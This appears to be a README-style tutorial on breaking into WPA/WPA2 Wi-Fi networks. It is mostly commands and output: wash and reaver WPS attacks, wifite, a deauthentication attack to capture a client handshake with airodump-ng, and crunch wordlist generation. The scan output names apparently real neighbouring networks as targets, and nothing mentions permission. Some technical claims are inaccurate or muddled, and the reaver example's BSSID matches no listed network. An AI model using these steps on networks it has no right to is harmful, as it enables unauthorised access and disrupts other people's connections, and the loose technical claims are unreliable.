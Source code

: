 # Play With WPA / WPA2 Encryption


### WPA/WPA2:
- WPA/WPA2 (Wi-Fi Procted Access) is the latest generation of network encryption.
- It's desgined to secure wireless computer network.
- WPA/WPA2 are similar but the only different is WPA2 uses CCMP algorithm.
- It's the most widely used encryption to secure the networks.
- It's using a unique temporary key and using 256 bits.

First we have to check is which network have WPA and enable on it. We gonna use tool called **wash**.

Open a terminal and type: `wash`

You will see the all option.

`wash -i wlan0mon -F`

```
wahs		-> tool
-i			-> interface
wlan0mon	-> network card name
-F			--ignore-fcs (Ignore frame checksum errors)
```
Select your target.

```
BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
--------------------------------------------------------------------------------
50:64:2B:47:F0:53    1  -75  2.0  No   RalinkTe  Arnob Amit
0C:80:63:78:0F:0A    1  -91  2.0  No   RalinkTe  jarif
D4:6E:0E:77:03:1E    1  -86  2.0  No   RalinkTe  AHAD JOY
14:CC:20:B2:B3:E2    1  -88  1.0  No   AtherosC  WiFi
C4:6E:1F:0B:A2:E0    1  -61  1.0  No   AtherosC  shad wi-fi
```
Now We gonna use tool called **reaver**.

`reaver -i wlan0mon -b 50:64:2B:C7:3E:30 -c 6 -vv 1`

```
reaver				-> tool
-i					-> interface
wlan0mon			-> network card on monitor mode
XX:XX:XX:XX:XX:XX	-> target network mac address
-c					-> channel
-vv					-> display non chractor error
-K					-> pixie-dust
```
This method is not working good. Now we use **wifite** tool. Just use the command then network scan will be automatically.

`wifite`

```
NUM                      ESSID   CH  ENCR  POWER  WPS?  CLIENT
   ---  -------------------------  ---  ----  -----  ----  ------
     1                      L1F2     1   WPA   51db   yes                                             
     2                      LiFi     6   WPA   48db    no                                             
     3                shad wi-fi     1   WPA   40db   yes                                             
     4                        SK     3   WPA   35db   yes    1                                        
     5                     maruf    11   WPA   35db    no
```

Then press *ctrl+c* and type your target channel. Example:

`[+] select target(s) (1-40) separated by commas, dashes or all: 1`

This method is not working maximux time. Now we use another method.

## Capture The Handshake File

We can only capture handshake file when a client connect to the network.

**Steps:**
- We will disconnect the client using deauthentication attack.
- Then we will let him connect again by stoping the attack.
- After that will be able to capture the handshake. 


`airmon-ng start wlan0`		-> change monitor mood.

`airodump-ng wlan0mon`		-> scan the network

Scan the target network.
`airodump-ng -c 5 --bssid XX:XX:XX:XX:XX:XX --write HandShak wlan0mon`

New *.cap* file is created.

## Creating a wordlist.

Crunch can generate all possible combinations and permutations.

**Crunch Useful Commands:**

- (MIN) The minimum number of characters
- (MAX) The maximun number of character
- T(PATTERN) You can use it if you know the first or the last *character* of the password
- O(OUTPUT) where do you want to output the wordlist

`CRUNCH (MIN)(MAX) {CHARACTERS:NUMBERS|SYMBOLES|CAPITAL OR SMALL LETTER} -T (PATTERN) -O (OUTPUT)`

Example create word list.

`crunch 5 8 123456abcdefg -o /root/Documents/wordlist.list`

or you can min and max is same number.

`crunch 8 8 123456abcdefg -o /root/Documents/wordlist.list`

`crunch 5 5 123456abcdefg -t a@@@b -o /root/Documents/wordlist.list`

